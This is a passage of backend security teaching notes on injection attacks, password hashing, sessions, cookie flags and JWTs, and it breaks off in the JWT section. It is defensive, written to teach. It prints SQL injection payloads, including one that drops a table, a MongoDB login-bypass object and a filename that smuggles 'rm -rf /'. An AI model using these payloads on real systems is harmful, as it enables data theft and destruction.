## TL;DR

- Every vulnerability comes down to one question: **where did the developer make an assumption?** (input is clean, the user is who they claim to be, the request came from our own frontend, nobody opens the network tab).
- **Injection** (SQL, NoSQL, OS command, XSS) happens when **data is confused with code** as it crosses from one "language" (HTML, SQL, shell) into another. The fix is always to **separate structure from data**: parameterized queries, argument arrays, sanitization/escaping.
- **Passwords**: never plain text, never fast hashes (MD5/SHA-256). Use a **slow, salted, tunable** password hash — **Argon2id** (current standard) or **bcrypt**. Salts defeat rainbow tables; cost factor defeats GPU brute force.
- **Sessions**: long random IDs from a CSPRNG, stored server-side (Redis/Postgres) with metadata, delivered in a cookie with **HttpOnly, Secure, SameSite** flags.
- **JWTs** are stateless and easy to scale but **hard to revoke**, their payload is only **Base64-encoded (readable)**, and storage is tricky. Prefer **stateful sessions** unless you truly need stateless; if you use JWTs, use short-lived access tokens + refresh tokens + HttpOnly cookies.
- **Rate limit** auth endpoints in **layers**: per-IP, per-account, and global — each layer catches attacks the previous one misses (rotating IPs, password spraying).
- **Authorization** must be checked **at the point of access** (the query), not only at the router. BOLA/IDOR = horizontal (user A reads user B's data); BFLA = vertical (member calls admin functions). Return **404, not 403**, to avoid leaking existence. Centralize, default-deny, test, audit-log.
- **XSS** = attacker JavaScript running in your users' browsers. Sanitize user markup, avoid raw HTML injection, and add **CSP** as a last line of defense. **CSRF** is largely neutralized by **SameSite** cookies (Lax by default in modern browsers). Avoid **misconfigurations**: secrets in git, debug logs in prod, missing security headers. Think in **layers** (defense in depth).

## Why this matters

Security failures are uniquely destructive: a single hole can leak every user's data, drain money, or delete your database. And unlike performance bugs, they are invisible in the happy path — the app works perfectly until an attacker shows up.

Security is a huge domain: browser security (HTML, cookies, local storage), network security (HTTP/HTTPS, TLS), server/OS security (the operating system your process runs inside), and **backend application security** — the vulnerabilities that come from the code *you* write. This chapter focuses on the last one, with enough browser and network context to make sense of it.

> [!IMPORTANT]
> No application is ever "truly secure". Libraries, languages and attack techniques keep evolving. The goal is not to memorize a fixed list of exploits but to build a **paranoid mindset**: every time you write code, ask "what could go wrong here?"

## Thinking like an attacker

Attackers (the speaker deliberately avoids the word "hacker") do not care whether you use Go, Python, Node.js or Rust. They ask exactly one question:

> **Where did the developer make an assumption?**

Typical assumptions developers make, especially under startup deadlines:

| Assumption | What the attacker does instead |
|---|---|
| Input from the frontend is clean | Sends quotes, semicolons, script tags, JSON operators |
| The user is who they say they are | Steals or forges sessions/tokens |
| The request came from *our* frontend | Calls the API directly with curl, scripts, or from another site |
| Nobody will open the network tab | Reads every API call, changes IDs and parameters, replays requests |
| Users will click the right buttons in the right order | Pokes every boundary, skips steps, sends requests out of order |

These assumptions feel reasonable when you are thinking only about the **happy path** — the user fills the form correctly and navigates the app as intended. Attackers deliberately leave the happy path. Every vulnerability below is one of these assumptions being violated.

> [!TIP]
> Make "what could go wrong here?" a reflex for every handler you write: what if this field is missing, huge, has special characters, belongs to another user, or arrives 10,000 times per second?

## Injection attacks

### Root cause: your application speaks many languages

Injection attacks have existed for decades and are still common, and they all share one root cause. Once you see it, you understand an entire category of bugs.

Your backend is multilingual:

- It talks to the **database** in **SQL**.
- It sends **HTML, CSS and JavaScript** to browsers.
- It talks to the **operating system** in **shell** commands (opening files, running CLI tools).
- Possibly also LDAP, XML, template languages, and more.

Each language has its own **grammar**, its own **special characters**, and its own way of **separating commands from data**. A user typically speaks one language (they type into a browser). When their input crosses a boundary into another language's context, characters that were harmless "data" in one language can become **commands** in the other.



> [!IMPORTANT]
> **Injection = confusion between code and data.** The input was supposed to be data, but because of overlapping special characters it became part of the code that another system executes.

### SQL injection

#### The setup

A simple login page: the user enters email and password, the server looks the user up in the database, checks the password, and responds. Zoom into the query. A careless developer builds it by **string concatenation**:

```ts
// VULNERABLE — never do this
const query = "SELECT * FROM users WHERE email = '" + email + "'";
const result = await db.query(query);
```

**Happy path.** Alice types `alice@gmail.com`. The query becomes:

```sql
SELECT * FROM users WHERE email = 'alice@gmail.com';
```

The database returns Alice's row; login proceeds. Everything works.

#### The attack: always-true condition

The attacker types this into the email field instead:

```text
' OR '1'='1' --
```

After concatenation, the query becomes:

```sql
SELECT * FROM users WHERE email = '' OR '1'='1' --';
```

Walk through it character by character:

1. The attacker's **first single quote** closes the opening quote that the server's template added. So `email = ''` is now a complete expression: "email equals the empty string" — false for every real user.
2. `OR` introduces a second condition. With `OR`, if **either** side is true, the whole condition is true.
3. `'1'='1'` compares the string `1` with the string `1` — **always true**.
4. `--` starts an SQL **comment**, so the trailing quote from the template is ignored. Without it, the leftover `'` would cause a syntax error.

So the WHERE clause is "false OR true" = **true for every row**. The query is effectively `SELECT * FROM users;` and returns **every user** — names, emails, and in a real system hashed passwords, addresses, phone numbers.



> [!NOTE]
> The characters themselves are not malicious. They only become malicious when combined with your SQL template. That is why "blocking bad characters" is fragile — a benign user might legitimately type an apostrophe (think `O'Brien`).

#### The more destructive version: stacked queries

```text
'; DROP TABLE users; --
```

becomes

```sql
SELECT * FROM users WHERE email = ''; DROP TABLE users; --';
```

- `'` closes the string; the first statement finds nothing.
- `;` **ends the statement**; a new statement begins.
- `DROP TABLE users;` deletes the entire table.
- `--` comments out the leftover quote.

In the demo (TablePlus against Postgres), the second statement did *not* run: many modern drivers and tools **block multiple back-to-back statements in one call** by default precisely because SQL injection is so old. But older or less careful drivers will happily execute it.

#### Even worse possibilities

A skilled attacker can go further:

- **`UNION` queries** to pull data from other tables (e.g. payment information) into the result.
- **Database-specific functions** to read files from the server's file system.
- In some configurations, **execute operating-system commands** through the database.

#### Why SQL is vulnerable: special characters

| Character / keyword | Meaning in SQL |
|---|---|
| `'` | Starts/ends a string literal |
| `;` | Ends a statement; next statement begins |
| `--` | Rest of the line is a comment |
| `OR`, `DROP`, `WHERE`, `UNION` | Keywords with specific meaning |

Concatenating user input into SQL means you are **trusting that the input contains none of these** — an impossible guarantee.

#### Fix 1: parameterized queries (prepared statements)

Instead of mashing one string together, send the database **two separate things**: the query **structure** with placeholders, and the **values**.

```ts
// SAFE — Postgres style placeholders ($1, $2, ...)
const statement = "SELECT * FROM users WHERE email = $1";
const result = await db.query(statement, [email]);
```

```go
// Go (database/sql with pgx/lib/pq)
row := db.QueryRowContext(ctx, "SELECT id, email FROM users WHERE email = $1", email)
```

How it works:

- The **statement** contains no user data — just tables, columns, conditions.
- `$1` is a **parameter**: a slot (empty box) where data will go. (MySQL uses `?`.)
- The database parses the statement's structure **first**, then binds the value into the slot. Whatever goes into the slot is treated **purely as data** — a string — never as SQL syntax.

Now the malicious input `' OR '1'='1' --` is just a weird string. The database literally looks for a user whose email is `' OR '1'='1' --`, finds none, and returns zero rows. No harm done.



> [!TIP]
> Every modern driver supports parameterized queries and every ORM uses them by default. You are only vulnerable if you deliberately bypass them by building raw SQL strings yourself — so don't. Be careful with ORM "raw query" escape hatches.

> [!NOTE]
> Placeholders work for **values**, not identifiers. You cannot parameterize a table or column name (e.g. a user-chosen `ORDER BY` column). For those, map user input to an **allowlist** of known column names.

#### Fix 2: validation (defense in depth)

`' OR '1'='1' --` doesn't look like an email. A strict **validation layer** should reject it before it ever reaches the query. But validation can be weak or have gaps, so parameterized queries remain the real guarantee.

#### Fix 3: least-privilege database user

The credentials your app uses to connect to the database should only have permission for **DML** (Data Manipulation Language: `SELECT`, `INSERT`, `UPDATE`, `DELETE`), **not DDL** (Data Definition Language: `CREATE`, `ALTER`, `DROP`). Then even a successful `DROP TABLE` injection fails with a permission error. Run migrations with a separate, more privileged user.

```sql
-- App user: data only, no schema changes
CREATE ROLE app_user LOGIN PASSWORD '...';
GRANT SELECT, INSERT, UPDATE, DELETE ON ALL TABLES IN SCHEMA public TO app_user;
-- no GRANT for DROP/ALTER/CREATE
```

| | DML | DDL |
|---|---|---|
| Stands for | Data Manipulation Language | Data Definition Language |
| Examples | SELECT, INSERT, UPDATE, DELETE | CREATE, ALTER, DROP, TRUNCATE |
| App runtime user needs it? | Yes | No (only migration user) |

### NoSQL injection

"I use MongoDB, I don't write SQL, so I'm safe" — **false**. MongoDB queries are JSON-like objects, and they can contain **operators** as nested objects with keys starting with `$`: `$ne` (not equal), `$gt` (greater than), `$exists`, `$regex`, etc.

A normal query: find where `email` equals a string. If the app takes JSON from the request body and passes it **straight into the query**, the attacker controls not just the **value** but the **structure**:

```ts
// VULNERABLE: req.body.email could be an object, not a string
const user = await users.findOne({ email: req.body.email, password: req.body.password });
```

```json
{ "email": { "$ne": null }, "password": { "$ne": null } }
```

This matches "the first user whose email is not null and password is not null" — a login bypass.



**Fix:** validate types strictly (email must be a *string*), never pass raw request objects into queries, and use schema validation (e.g. Zod) so operators can't sneak in.

### OS command injection

Same disease, different target: instead of the database, the attacker targets the **operating system shell**.

Scenario: users upload images; your server resizes/compresses them using a CLI tool like **FFmpeg** (or ImageMagick). The user may choose the output file name. The developer builds a shell command string:

```ts
// VULNERABLE: the string is interpreted by a shell
import { exec } from "node:child_process";
exec(`ffmpeg -i input.png -vf scale=220:120 ${userFileName}`);
```

Happy path: `userFileName = "output.jpg"`. Attack:

```text
out.jpg; rm -rf /
```

The shell runs FFmpeg, sees `;` (end of command), then runs `rm -rf /` — deleting everything the process has permission to delete. Each shell (bash, zsh, fish) has its own special characters, so attackers can get creative:

| Shell syntax | Effect |
|---|---|
| `;` | Run another command after this one |
| `\|` | Pipe output into another command |
| `&` / `&&` | Run in background / run if previous succeeded (e.g. a hidden spyware process) |
| `` `cmd` `` / `$(cmd)` | Command substitution |
| `>` | Redirect output, overwrite files |



**Fix: separate the command from its arguments.** Every language provides an API that takes the program and an **array of arguments** and starts the process **directly, without a shell interpreter**. The arguments are passed to the process as plain strings; nothing parses `;` or `|`.

```ts
// SAFE: no shell, arguments passed as an array
import { execFile } from "node:child_process";
execFile("ffmpeg", ["-i", "input.png", "-vf", "scale=220:120", userFileName]);
```

```go
// SAFE in Go: exec.Command does not invoke a shell
cmd := exec.CommandContext(ctx, "ffmpeg", "-i", "input.png", "-vf", "scale=220:120", userFileName)
err := cmd.Run()
```

> [!WARNING]
> Argument arrays stop shell injection, but a value starting with `-` can still be interpreted as a **flag** by the program (argument injection), and a name like `../../etc/passwd` is **path traversal**. Also validate the filename (allowlist characters, generate names server-side when possible).

### The injection mental model

Whenever user input travels into another system that **interprets** it — SQL, NoSQL, shell, HTML, LDAP, XML — ensure it is treated **purely as data**, never as something executable.

| Context | Unsafe pattern | Safe pattern |
|---|---|---|
| SQL | String concatenation / template strings | Parameterized queries / prepared statements |
| NoSQL (MongoDB) | Passing raw request JSON into queries | Strict type validation, build query objects yourself |
| OS shell | `exec("cmd " + input)` | Argument arrays (`execFile`, `exec.Command`) |
| HTML (XSS) | `innerHTML = input` | Escaping / sanitization, CSP |

> [!INTERVIEW]
> **"What is the root cause of injection attacks and how do you prevent them in general?"** — Untrusted input is concatenated into a string that another interpreter (SQL engine, shell, browser) parses, so special characters change the *structure* of the command — data becomes code. Prevent it by using APIs that keep structure and data separate (parameterized queries, argument arrays, auto-escaping templates), plus strict input validation and least privilege as extra layers.

> [!TIP]
> The paranoia trigger: **"Am I building a string that another system will interpret, and does it include user input?"** If yes, stop and find the parameterized alternative. It almost always exists.

## Authentication vulnerabilities

Authentication = verifying identity: figuring out **which row in your `users` table** corresponds to the person making this request. Get it wrong and attackers can **impersonate users**, read private data, act on their behalf, and steal money. Account takeover happens in the real world every day.

### Advice first: use an auth provider if you can

If you have the budget and approval, use a managed authentication provider (e.g. **Clerk**, Auth0, Supabase Auth) for production instead of building the whole flow yourself. This is not about writing your own crypto (never do that) — it's about the entire flow.

A toy flow (sign a JWT, store it in a cookie, verify it) is easy. A **production** auth system is much bigger:

- **Stateful sessions**: track every device the user is logged in on; revoke one or all sessions instantly (by the user or by you). Involves databases, Redis caches, permission storage, timeouts, revocation from cache *and* DB.
- **Social login / OAuth**: "Sign in with Google/GitHub/Twitter" — OAuth flows in both backend and frontend with smooth redirects.
- **Account linking**: a user who signed up with `a@gmail.com` + password and later clicks "Sign in with Google" with the same email must map to the **same** account, not a new one.
- RBAC permissions, MFA, bot detection, breached-password checks, and more.

Every corner you cut compromises either **security** or **user experience**.

| Build your own | Use a provider |
|---|---|
| Weeks of developer time (salary cost) | Hours to integrate with an API key |
| You must track new attacks yourself | Dedicated security team working 24/7 |
| Edge cases discovered in production | Edge cases already handled |
| Cheap at huge scale | Bills grow with users (can reach $10k-$20k per month) |

When you have millions of users and the bill is large, you'll also have revenue and engineers — that is the time to consider migrating to your own system. **Even with a provider, you must understand how auth works** to configure and integrate it securely.

### Password storage

#### Level 0: plain text (never)

Naive approach: a `text` column storing exactly what the user typed (`12345`). Login compares strings. Problems:

1. **Databases get breached constantly** — companies of every size, via insiders, compromised third-party services, misconfigurations. If passwords are plain text, every one leaks.
2. **Password reuse**: well over half of users reuse the same email + password across sites (few use password managers). One breach of *your* DB lets attackers try those credentials on banks, e-commerce, social media — **credential stuffing** — and take over accounts elsewhere. Users usually never learn about the breach.
3. **Insiders**: every developer, DBA, contractor with DB access can read every password.

#### Level 1: hashing

A **hash function**:

- Takes input of **any length** and returns output of **fixed length**.
- Is **deterministic**: same input → same output, every time.
- Is **one-way**: computing the input from the output is infeasible with current computing power.

So store `hash(password)` instead of the password. At login, hash the submitted password and compare with the stored hash. If the DB leaks, the attacker gets hashes, not passwords.

#### Problem: rainbow tables

Because hashing is deterministic and everyone uses a few popular algorithms, attackers **precompute** hashes of common passwords: `12345 → <hash>`, `password → <hash>`, `password@123 → <hash>`... A **rainbow table** is (conceptually) a giant lookup from hash back to common password. After a breach, the attacker just looks up each stored hash; every user with a common password is cracked instantly.

> [!NOTE]
> Strictly, a rainbow table is a space-efficient structure built from hash chains, not a plain lookup table — but the effect is the same: reverse common hashes without computing them at attack time.

#### Level 2: salting

A **salt** is a random string generated **per user** with a **cryptographically secure pseudo-random number generator (CSPRNG)** (e.g. via OpenSSL or your language's crypto library). Store it alongside the user, and hash `password + salt`:

| id | email | salt | password_hash |
|---|---|---|---|
| 14 | a@gmail.com | `SP3x...` | `hash("12345" + "SP3x...")` |
| 15 | b@gmail.com | `9fQk...` | `hash("12345" + "9fQk...")` |

Two users with the same password now have completely different hashes, and none matches any precomputed rainbow table entry. Rainbow table attacks yield **zero** results — even though the salt itself is not secret.



> [!NOTE]
> Modern libraries (bcrypt, Argon2) generate the salt for you and embed it — together with the algorithm and cost parameters — inside the output string, e.g. `$argon2id$v=19$m=65536,t=3,p=4$<salt>$<hash>`. You usually store just that single string.

#### Problem: GPU brute force

Modern GPUs (cheaply rentable from clouds thanks to the AI boom) compute **billions of SHA-256 hashes per second**. With a breached DB, an attacker can do **offline brute force** per user: take the salt, hash every common password / every pattern / every 8-character string with that salt, compare. With billions of guesses per second this takes days.

#### Level 3: slow, tunable password hashing

That's why we **don't** use general-purpose hashes like **MD5** or **SHA-256** for passwords. They are designed to be *fast* (great for file integrity checks, terrible for passwords). Use **password hashing functions** designed to be deliberately slow:

- **bcrypt** — the long-time default for web apps.
- **scrypt** — memory-hard.
- **Argon2id** — the current industry standard (winner of the Password Hashing Competition), memory-hard to resist GPUs/ASICs.

They have a **cost factor** (work factor) you tune to your hardware: e.g. make one hash take ~100–400 ms.

- **Genuine user**: login takes 400–600 ms instead of 50 ms — imperceptible.
- **Attacker**: drops from **billions of guesses per second** to a handful per second per core. Cracking goes from days to decades or centuries.

```ts
import argon2 from "argon2";

// Sign up
const hash = await argon2.hash(password, { type: argon2.argon2id });
await db.query("INSERT INTO users (email, password_hash) VALUES ($1, $2)", [email, hash]);

// Login
const row = await db.query("SELECT id, password_hash FROM users WHERE email = $1", [email]);
const ok = row && (await argon2.verify(row.password_hash, password));
```

| Storage method | Breach exposes | Defeated by |
|---|---|---|
| Plain text | Every password instantly | Nothing needed |
| Fast hash (MD5/SHA-256), no salt | Common passwords | Rainbow tables |
| Fast hash + salt | Weak passwords (slowly) | GPU brute force (billions/sec) |
| Slow hash (Argon2id/bcrypt) + salt + cost | Almost nothing practical | — (only very weak passwords remain at risk) |

> [!INTERVIEW]
> **"How would you store passwords?"** — Never plain text or encryption. Use a slow, salted password-hashing algorithm — Argon2id (or bcrypt) — with a cost factor tuned so one hash takes a few hundred milliseconds. The salt (random, per user, from a CSPRNG) defeats rainbow tables; the slowness defeats GPU brute force. Verify with the library's constant-time `verify`.

> [!TIP]
> A great resource for implementing auth correctly is **Lucia** (lucia-auth.com) — formerly an auth library, now a well-written guide to implementing authentication with industry best practices. Also see the OWASP Password Storage Cheat Sheet.

### Sessions (stateful authentication)

After login, you can't ask for the password on every request. You need to **remember** the user is authenticated — that's a **session**. On successful login the server does three things:

1. **Generate a random session ID** with a **CSPRNG** — long, at least 128 bits of entropy (commonly 128–256 bits). If an attacker can guess a session ID, they can hijack that session. With 128 bits there are more possible IDs than atoms in... well, astronomically many — guessing is practically impossible.
2. **Store the session server-side** — in **Redis** (fast) or the primary DB (Postgres/MySQL) — with metadata: user ID, created at, **expires at** (e.g. 7 days), **IP address** (show login locations in the dashboard), **User-Agent** (show "Chrome on Android", "Safari on iPhone").
3. **Send the session ID to the browser in a cookie**. The browser then automatically sends it with every subsequent request.

On every request, the server reads the session ID from the cookie, looks it up in the store, finds the user, and now knows who is calling. Logout or "log out of all devices" = delete the session rows.



> [!NOTE]
> JWTs follow the same philosophy of "the client presents something on every request that identifies the authenticated user" — they just don't keep state on the server.

### Cookie security flags

```http
Set-Cookie: sid=9f2c...e81; HttpOnly; Secure; SameSite=Lax; Path=/; Max-Age=604800
```

#### HttpOnly

JavaScript **cannot read** the cookie (`document.cookie` won't show it). This matters if your site has an **XSS** vulnerability (attacker JS running on your page): the attacker's script can read `localStorage` and non-HttpOnly cookies, but not HttpOnly cookies. This is why storing session IDs or JWTs in **localStorage is discouraged** — always put auth credentials in HttpOnly cookies.

#### Secure

The browser only sends the cookie over **HTTPS**. Plain HTTP can be intercepted on public Wi-Fi (cafes), by malicious ISPs, compromised routers with spyware, or anyone with Wireshark on the network path. Over HTTPS the traffic is encrypted, so watchers see gibberish.

#### SameSite

Controls whether the cookie is sent on **cross-site** requests (requests to your site triggered from another site):

| Value | Behaviour | Use |
|---|---|---|
| `Strict` | Only sent when the request originates from your own site. Clicking a link to your site from another site arrives *without* the cookie. | Best for sensitive session cookies |
| `Lax` | Sent on **top-level navigations** (clicking a link, GET), not on cross-site subresource requests like images, iframes, or cross-site form POSTs. | Default in modern browsers; good general choice |
| `None` | Sent on all requests, including cross-site. **Requires `Secure`.** | Only if you truly need cross-site cookies; avoid for sessions |

SameSite is the main defense against **CSRF** (covered later).

| Flag | Defends against |
|---|---|
| HttpOnly | Session theft via XSS |
| Secure | Sniffing over plain HTTP (man-in-the-middle) |
| SameSite | CSRF (cross-site request forgery) |

> [!INTERVIEW]
> **"What cookie flags do you set on a session cookie and why?"** — `HttpOnly` so JavaScript (including injected XSS) can't read it; `Secure` so it only travels over HTTPS and can't be sniffed; `SameSite=Strict` or `Lax` so it isn't attached to cross-site requests, which blocks CSRF. Plus a sensible `Max-Age`/expiry and narrow `Path`/`Domain`.

### JWTs (stateless authentication)

With **sessions**, the server stores the session data and the client holds only an **ID**. With **JWTs** (JSON Web Tokens), the **session data itself** is given to the client, which presents it on every request. Natural question: if the client tells us who the user is, can't they just claim to be user B? No — because of the **signature**.

#### Structure: `header.payload.signature`

```text
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9 . eyJzdWIiOiIxMjM0IiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWUsImlhdCI6MTUxNjIzOTAyMn0 . SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```

- **Header** — describes the token: algorithm (`HS256`, `RS256`) and type.
- **Payload** — **claims** (key-value pairs). Standard ones: `sub` (subject — the user ID, e.g. a UUID), `iat` (issued at — used to decide expiry), `exp` (expiry). Custom ones: `name`, `admin: true`, etc.
- **Signature** — `sign(base64url(header) + "." + base64url(payload), secret)`, using a cryptographically random secret kept in the server's environment variables.

```json
{ "sub": "1234", "name": "John Doe", "admin": true, "iat": 1516239022 }
```

#### Flow

